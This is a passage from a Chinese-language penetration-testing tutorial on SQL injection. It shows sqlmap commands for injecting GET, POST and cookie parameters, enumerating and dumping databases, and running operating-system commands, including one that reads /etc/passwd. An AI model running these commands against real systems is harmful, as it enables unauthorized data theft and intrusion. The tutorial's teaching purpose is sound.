 2. 通过网页控制目标

   ![SQL注入木马-2](image\SQL注入\SQL注入木马-2.png)

## 二、自动化工具

### 2.1 sqlmap

#### 2.1.1 基本测试

1. GET 参数注入

   ```bash
   sqlmap -u "http://target.com/page.php?id=1"
   ```

2. POST 请求注入

   ```bash
   sqlmap -u "http://target.com/login.php" --data="username=admin&password=123"
   ```

3. Cookie 注入（需登录态）

   ```bash
   sqlmap -u "http://target.com/protected.php" --cookie="PHPSESSID=xxx"
   ```

4. 静态请求文件（Burp 抓包导出）

   ```bash
   sqlmap -r request.txt
   ```

#### 2.1.2 数据库信息收集

| 命令                 | 功能                           | 示例                                                      |
| -------------------- | ------------------------------ | --------------------------------------------------------- |
| --banner             | 获取数据库版本信息             | sqlmap -u "url?id=1" --banner                             |
| --current-db         | 获取当前数据库名               | sqlmap -u "url?id=1" --current-db                         |
| --dbs                | 列出所有数据库                 | sqlmap -u "url?id=1" --dbs                                |
| -D 数据库名 --tables | 列出指定数据库的表             | sqlmap -u "url?id=1" -D mysql --tables                    |
| -T 表名 --columns    | 列出表的字段                   | sqlmap -u "url?id=1" -D mysql -T user --columns           |
| -C 字段名 --dump     | 导出字段数据                   | sqlmap -u "url?id=1" -D mysql -T user -C User,Host --dump |
| --os-cmd             | 直接执行操作系统命令           | sqlmap -u "url?id=1" --os-cmd "cat /etc/passwd"           |
| --is-dba             | 检测当前账户是否为数据库管理员 | sqlmap -u "url?id=1" --is-dba                             |

使用`--os-cmd`执行操作系统命令需要具备三个前提条件

1. 当前账户为数据库管理员账户，通过`--is-dba`进行检测
2. 数据库支持堆查询或特定函数
3. 目标Web程序需允许执行多语句

## 三、手工注入
